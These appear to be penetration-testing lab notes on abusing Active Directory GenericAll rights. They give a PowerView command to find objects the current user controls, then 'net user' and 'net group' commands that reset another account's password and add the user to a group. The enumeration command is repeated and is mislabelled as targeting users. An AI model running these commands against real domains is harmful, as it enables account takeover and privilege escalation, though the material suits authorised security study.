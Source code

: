 ## Enumeration And Exploit
We can use the following command to enumerate any users who our current domain user has GenericAll rights on:
```Powershell
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

This will enumerate all ACEs for all domain users, filtered by our current user.

![](../../../Screenshots/as-da-ac.png)

The GenericAll access right gives us full control over the user, which among other things, allows us to change the password of the account without knowledge of the old password:
```shell
net user testservice1 h4x /domain
```

we can also enumerate all domain groups that our current user has explicit access rights to by piping the output of Get-DomainGroup into Get-ObjectAcl and filtering it

```Powershell
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```
z
With the having GenericAll rights on a group we can add ourselves in the same group with:
```sh
net group testgroup offsec /add /domain
```

